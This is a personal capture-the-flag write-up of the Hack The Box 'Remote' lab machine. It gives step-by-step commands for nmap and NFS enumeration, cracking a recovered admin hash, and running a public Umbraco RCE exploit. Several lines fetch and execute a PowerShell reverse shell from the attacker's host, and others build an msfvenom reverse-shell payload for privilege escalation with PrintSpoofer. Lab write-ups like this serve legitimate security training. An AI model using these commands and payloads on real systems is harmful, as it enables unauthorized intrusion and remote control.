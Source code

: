 # Summary



## about target

tip:  10.129.9.176

hostname:  Remote

Difficulty:  Easy



## about attack

+ nmap scan, miss the port 2049; 
+ web service, umbraco; app_data/umbraco.sdf  contains pwd/hash.
+ extract crypted Teamviewer password, decrypt. [htb-remote](https://0xdf.gitlab.io/2020/09/05/htb-remote.html#priv-iis--administrator)



**attack note**

```bash
Remote / 10.129.9.176

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
49666/tcp open  msrpc         Microsoft Windows RPC


---- insteresting
Windows 10.0 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False) / crackmapexec 

administrator:b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese

---- http enum
http://10.129.95.194/umbraco/#/login 
test@local.com; ping -c 1 10.10.14.78

sudo tcpdump -i tun0 icmp


http://10.129.95.194/umbraco/Ping.aspx

---- nfs enum
showmount -e $tip

sudo mount -t nfs $tip:/site_backups /mnt/



john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
---- exploit 


https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py

python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.9.176' -c whoami

python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.9.176' -c powershell.exe -a "-NoProfile -Command iex(new-object net.webclient).downloadstring('http://10.10.14.78/shell.ps1')"



.\jp.exe -t * -p c:\temp\4444.exe -l 9001

.\prt.exe -c .\4444.exe

```







# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```



Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind?
135/tcp   open  tcpwrapped
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
49666/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|router|broadband router|proxy server|webcam|terminal|printer
Running (JUST GUESSING): AVtech embedded (98%), Linksys embedded (95%), OneAccess embedded (95%), Blue Coat embedded (95%), Polycom pSOS 1.X (95%), Wyse ThinOS 5.X (95%), Ricoh embedded (90%)
OS CPE: cpe:/h:oneaccess:1641 cpe:/h:bluecoat:packetshaper cpe:/o:polycom:psos:1.0.4 cpe:/o:wyse:thinos:5.2 cpe:/h:ricoh:aficio_sp_c240sf
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (98%), Linksys BEFSR41 EtherFast router (95%), OneAccess 1641 router (95%), Blue Coat PacketShaper appliance (95%), Polycom MGC-25 videoconferencing system (pSOS 1.0.4) (95%), Wyse ThinOS 5.2 (95%), Ricoh Aficio SP C240SF printer (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-11-03T11:13:25
|_  start_date: N/A

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   413.40 ms 10.10.14.1
2   413.59 ms 10.129.9.176


```



## http enum

gobuster scan; 

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip -o gobuster.log -x aspx,txt

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/umbraco/ -o gobuster-umbraco.log -x aspx,txt
```

found login page, /umbraco;

forget password, checked command injection, no vulnerability.



/umbraco/ping.aspx, nothing.



## ftp/smb

no found.



## nfs enum

```bash
showmount -e $tip
```



![image-20221103222137256](./images/image-20221103222137256.png)



mount and check files.

```bash
sudo mount -t nfs $tip:/site_backups /mnt/

Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```

![image-20221103222328205](./images/image-20221103222328205.png)



# Exploit

crack hash

```bash
echo b8be16afba8c314ad33d812f22a04991b90e2aaa > admin.hash
john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
john --show admin.hash

baconandcheese
```



login via smb, wrong pwd.

```bash
crackmapexec smb $tip -u admin -p baconandcheese --shares
```

login web, http://10.129.9.176/umbraco/#/login

admin@htb.local:baconandcheese

help, found version: 7.12.4

![image-20221103192656734](./images/image-20221103192656734.png)

Search exploit, https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py

```bash
python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.9.176' -c whoami

```

![image-20221103223202405](./images/image-20221103223202405.png)



get reverse shell, use Invoke-PowerShellTcp.ps1

```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.78 -Port 9001" >> shell.ps1

python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.9.176' -c powershell.exe -a "-NoProfile -Command iex(new-object net.webclient).downloadstring('http://10.10.14.78/shell.ps1')"
```

got shell.



# Privesc



## Local enum

SeImpersonate enabled.



## System

PrintSpoofer.exe

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kip LPORT=4444  EXITFUNC=thread -f exe -o 4444.exe

iwr -uri http://10.10.14.78/4444.exe -outfile 4444.exe

.\prt.exe -c .\4444.exe
```

got system.



